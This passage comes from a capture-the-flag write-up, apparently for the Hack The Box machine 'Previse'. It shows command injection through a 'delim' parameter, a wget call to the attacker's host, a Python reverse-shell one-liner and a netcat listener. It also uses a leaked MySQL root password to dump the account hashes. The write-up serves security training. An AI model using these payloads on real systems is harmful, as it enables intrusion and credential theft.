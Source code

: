     delim=; wget 10.10.14.52:8000/$(id)


We got the RCE on our web server:
`10.129.193.153 - - [28/Aug/2021 09:06:34] "GET /uid=33(www-data) HTTP/1.1" 404 -`

We know that python is on the box so we use a basic python reverse shell. The
payload is the following:

`delim=; python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.52",4242));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'`


We run `netcat` on our kali box to catch our reverse shell and are logged in
as the `www-data` user.

    :::text
    nc -l -p 4242
    $ id
    id
    uid=33(www-data) gid=33(www-data) groups=33(www-data)

Using the connection credentials in the `config.php` file we can login on the
MySQL database as `root` and grab the passwords in the `accounts` table.


    :::text
    $ mysql -u root -p
    mysql -u root -p
    Enter password: mySQL_p@ssw0rd!:)

    Welcome to the MySQL monitor.  Commands end with ; or \g.
    mysql> use previse;
    use previse;
    Reading table information for completion of table and column names
    You can turn off this feature to get a quicker startup with -A

    Database changed
    mysql> SHOW TABLES;
    SHOW TABLES;
    +-------------------+
    | Tables_in_previse |
    +-------------------+
    | accounts          |
    | files             |
    +-------------------+
    2 rows in set (0.00 sec)

    mysql> select * from accounts;
    select * from accounts;
    +----+----------+------------------------------------+---------------------+
    | id | username | password                           | created_at          |
    +----+----------+------------------------------------+---------------------+
    |  1 | m4lwhere | $1$🧂llol$DQpmdvnb7EeuO6UaqRItf. | 2021-05-27 18:18:36 |
    |  2 | totoo    | $1$🧂llol$wzYjWk/p5usz8BzxvPrXs1 | 2021-08-25 12:49:52 |
    |  3 | toto1    | $1$🧂llol$eBQMPwAvz9j9ZpK62qDI// | 2021-08-25 12:50:25 |
    +----+----------+------------------------------------+---------------------+
    3 rows in set (0.00 sec)
